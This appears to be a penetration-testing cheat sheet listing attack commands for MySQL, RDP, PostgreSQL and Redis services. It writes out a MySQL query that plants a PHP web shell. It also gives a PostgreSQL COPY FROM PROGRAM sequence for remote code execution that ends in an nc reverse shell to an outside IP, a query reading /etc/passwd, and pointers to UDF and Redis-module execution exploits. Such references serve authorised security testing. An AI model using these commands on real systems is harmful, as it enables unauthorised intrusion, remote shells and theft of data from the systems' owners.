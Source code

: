 #### MySQL (3306)

```shell
mysql -u [USERNAME] -h [IP_ADDR] -p   # Connect to mysql server
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'SHOW DATABASES;'
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'USE [DATABASE]; SHOW TABLES;'
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile 'C:/xampp/htdocs/shell.php';
-------------- UDF ----------------
Requirement (root mysql credential, MySQL 4.1.10a and MySQL 4.0.24)
https://www.exploit-db.com/exploits/1518
```

#### RDP (3389)

```shell
rdesktop -u -r clipboard:CLIPBOARD [USERNAME] [IP_ADDR]:[PORT]
xfreerdp /v:[IP_ADDR] /u:[USERNAME] /p:[PASSWORD] /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
. \\tsclient\share\   # in powershell to access the files in /tmp
```

#### Postgresql (5432)

```shell
psql -U [USERNAME] -p [PORT] -h [HOST]    # default postgres:postgres
\l    # list databases
select pg_ls_dir('/home/');
select pg_read_file('/etc/passwd');
-------------RCE
postgres=# DROP TABLE IF EXISTS cmd_exec;
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'id';
COPY 1
postgres=# SELECT * FROM cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
(1 row)

postgres=# COPY cmd_exec FROM PROGRAM 'nc 192.168.49.52 80 -e /bin/bash';
```

#### Redis (6379)

```shell
redis-cli -h [IP]   # without auth
redis-cli -h [IP] -a [PASSWORD]   # auth required
----------
info
keys *
type [KEYS]
get [KEYS]    # strings
lrange [KEYS] [1] [64]    # list
----------
# Upload shell to a path with write access then read with LFI
# to check which path has write access to:
/etc/redis/redis.conf
/usr/lib/systemd/system/redis-server.service
# to upload: https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

----------
# If able to upload file to the system (doesnt matter through http upload or ftp)
# https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
# Compile a module and upload it 
```